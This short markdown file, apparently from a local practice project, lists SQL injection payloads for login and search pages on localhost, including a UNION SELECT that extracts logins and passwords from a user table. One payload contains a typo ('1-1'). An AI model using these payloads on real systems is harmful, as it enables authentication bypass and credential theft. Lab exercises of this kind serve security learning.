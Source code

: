 # SQL INJECTION QUERIES


### For login:
link: http://localhost:8080/login

vasya' or 1-1;--


### For search:
link: http://localhost:8080/search

vasya' or 1=1;--

vasya' or 1=1 union select id, login, password from user;--